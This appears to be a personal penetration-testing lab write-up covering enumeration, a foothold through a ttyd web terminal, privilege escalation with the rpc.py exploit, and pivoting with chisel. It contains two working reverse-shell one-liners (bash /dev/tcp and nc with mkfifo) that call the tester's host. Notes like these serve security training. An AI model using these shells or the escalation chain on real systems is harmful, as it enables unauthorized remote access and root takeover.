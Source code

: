 ### Enumeration
```
IP=192.168.163.210
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,8000 -A $IP
```
### Ports 
- 22
	- OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
- 8000
	- http-alt ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)
### Foothold
- 8000
	- Default landing page
		- ![[Pasted image 20240716090538.png]]
		- `/bin/bash -i >& /dev/tcp/192.168.45.195/22 0>&1`
		- To get rce
### PE
#### Linux
- user
	- id
		- uid=1000(user) gid=1000(user) groups=1000(user)
	- sudo -l
		- needs password
	- uname -a
		- `Linux pc 5.4.0-156-generic #173-Ubuntu SMP Tue Jul 11 07:25:22 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux`
	- getcap -r / 2>/dev/null
		- ![[Pasted image 20240716090847.png]]
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- Users with console
		- user
	- linpeas
		- possible exploits
			- pwnkit
		- Sudo version 1.8.31
		- Checking Pkexec policy
			- AdminIdentities=unix-user:0
			- /usr/bin/pkexec suid
		- root running - python3 /opt/rpc.py
			- running on port 65432
			- google rpc py
				- exploit-db 50983  rpc.py 0.6
				- Edit command, remove all the 3D
				- Edit payload to: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.195 22 >/tmp/f`
				- Get rev shell as sudo
		- netstat -ano
			- ports
				- 8000
				- 53
				- 65432
				- 42840  -  connects to shell
	- pivot
		- On A: ./chisel_1.5.1_linux_386 server -p 8000 --reverse
		- On B: ./chisel_1.5.1_linux_386 client -v 192.168.45.195:8000 R:socks
		- sudo proxychains nmap -p 65432 127.0.0.1 -sT -A
			- did not finish
		- proxychains python3 50983.py
			- run rpc.py exploit
### Credentials
### Lessons Learned
- Look through the running process carefully
- Cleaned processes in linpeas output had the rpc.py